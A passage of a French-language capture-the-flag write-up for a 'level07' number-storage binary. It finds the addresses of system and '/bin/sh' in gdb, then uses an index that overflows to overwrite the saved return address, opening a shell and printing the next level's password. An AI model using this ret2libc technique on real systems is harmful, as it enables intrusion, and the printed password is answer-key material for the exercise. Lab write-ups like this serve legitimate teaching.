 **Adresse de `system`**

```
> (gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
L'adresse de `system` est `0xf7e6aed0` (`4159090384` en base 10).

**Adresse de `/bin/sh`**

```
> (gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```
L'adresse de `/bin/sh` est `0xf7f897ec` (`4160264172` en base 10).

---

Il ne nous reste qu'à remplacer l'adresse de `eip` (index `114`) par l'adresse de `system` ; puis l'adresse de `eip+0x08` (index `116`) par l'adresse de `/bin/sh`.

```
> ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: 4160264172
 Failed to do 4160264172 command
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
